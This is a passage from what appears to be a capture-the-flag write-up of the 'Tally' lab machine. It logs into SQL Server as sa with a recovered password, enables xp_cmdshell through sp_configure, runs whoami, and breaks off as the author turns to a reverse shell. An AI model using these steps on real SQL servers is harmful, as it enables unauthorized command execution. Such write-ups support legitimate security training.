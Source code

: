 We get a login failed error. Let’s test out the second credentials we found.

```text
sqsh -S 10.10.10.59 -U sa -P "GWE3V65#6KFH93@4GWTG2G"
```

We’re in!

![](https://miro.medium.com/max/720/1*pL8_Jyyu7HstOSn_lh0fGg.png)

Since this is a System Administrator \(SA\) account, we should be able to run system commands.

Test out the _whoami_ command using _xp\_cmdshell_.

```text
1> xp_cmdshell 'whoami';
2> go
Msg 15281, Level 16, State 1
Server 'TALLY', Procedure 'xp_cmdshell', Line 1 SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

We get an error telling us that the _xp\_cmdshell_ option is disabled. Since we have an account with the highest level of privilege \(SA\), we can simply [enable it](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

```text
1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go
```

Try the _whoami_ command again.

![](https://miro.medium.com/max/638/1*77RcTNCG3TLwbzd1WBGSaw.png)

Perfect, we finally have code execution!

## Initial Foothold <a id="7bb0"></a>

Let’s use that to send a reverse shell to our attack machine.
